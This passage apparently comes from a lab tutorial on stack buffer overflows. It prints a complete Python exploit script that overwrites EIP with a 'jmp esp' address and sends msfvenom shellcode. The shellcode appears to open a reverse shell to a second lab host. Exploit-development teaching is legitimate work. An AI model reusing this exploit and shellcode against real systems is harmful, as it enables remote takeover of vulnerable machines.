 ![msfvenon generates shellcode for a tcp reverse shell](<../../../.gitbook/assets/image (792).png>)

Add it to the python exploit skeleton and replace the `RETN` on line 11 with the memory address containing `jmp esp`, which is `7798BD1B` (as usual, mind the endianness) in my case:

{% code title="exploit.py" %}
```python
import socket, sys

# connect to a socket on a vulnerable server
sock = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
sock.connect(("192.168.99.3", 10000))

# send A's
buf = b"A"*268

# overwrite EIP with address containing jmp esp instructions (inside ntdll.dll in my case)
buf += b"\x1b\xbd\x98\x77"

# shellcode
buf += b"\xfc\xe8\x82\x00\x00\x00\x60\x89\xe5\x31\xc0\x64\x8b"
buf += b"\x50\x30\x8b\x52\x0c\x8b\x52\x14\x8b\x72\x28\x0f\xb7"
buf += b"\x4a\x26\x31\xff\xac\x3c\x61\x7c\x02\x2c\x20\xc1\xcf"
buf += b"\x0d\x01\xc7\xe2\xf2\x52\x57\x8b\x52\x10\x8b\x4a\x3c"
buf += b"\x8b\x4c\x11\x78\xe3\x48\x01\xd1\x51\x8b\x59\x20\x01"
buf += b"\xd3\x8b\x49\x18\xe3\x3a\x49\x8b\x34\x8b\x01\xd6\x31"
buf += b"\xff\xac\xc1\xcf\x0d\x01\xc7\x38\xe0\x75\xf6\x03\x7d"
buf += b"\xf8\x3b\x7d\x24\x75\xe4\x58\x8b\x58\x24\x01\xd3\x66"
buf += b"\x8b\x0c\x4b\x8b\x58\x1c\x01\xd3\x8b\x04\x8b\x01\xd0"
buf += b"\x89\x44\x24\x24\x5b\x5b\x61\x59\x5a\x51\xff\xe0\x5f"
buf += b"\x5f\x5a\x8b\x12\xeb\x8d\x5d\x68\x33\x32\x00\x00\x68"
buf += b"\x77\x73\x32\x5f\x54\x68\x4c\x77\x26\x07\xff\xd5\xb8"
buf += b"\x90\x01\x00\x00\x29\xc4\x54\x50\x68\x29\x80\x6b\x00"
buf += b"\xff\xd5\x50\x50\x50\x50\x40\x50\x40\x50\x68\xea\x0f"
buf += b"\xdf\xe0\xff\xd5\x97\x6a\x05\x68\xc0\xa8\x63\x02\x68"
buf += b"\x02\x00\x01\xbb\x89\xe6\x6a\x10\x56\x57\x68\x99\xa5"
buf += b"\x74\x61\xff\xd5\x85\xc0\x74\x0c\xff\x4e\x08\x75\xec"
buf += b"\x68\xf0\xb5\xa2\x56\xff\xd5\x68\x63\x6d\x64\x00\x89"
buf += b"\xe3\x57\x57\x57\x31\xf6\x6a\x12\x59\x56\xe2\xfd\x66"
buf += b"\xc7\x44\x24\x3c\x01\x01\x8d\x44\x24\x10\xc6\x00\x44"
buf += b"\x54\x50\x56\x56\x56\x46\x56\x4e\x56\x56\x53\x56\x68"
buf += b"\x79\xcc\x3f\x86\xff\xd5\x89\xe0\x4e\x56\x46\xff\x30"
buf += b"\x68\x08\x87\x1d\x60\xff\xd5\xbb\xf0\xb5\xa2\x56\x68"
buf += b"\xa6\x95\xbd\x9d\xff\xd5\x3c\x06\x7c\x0a\x80\xfb\xe0"
buf += b"\x75\x05\xbb\x47\x13\x72\x6f\x6a\x00\x53\xff\xd5"

# send payload
sock.send(buf)
sock.close()
```
{% endcode %}
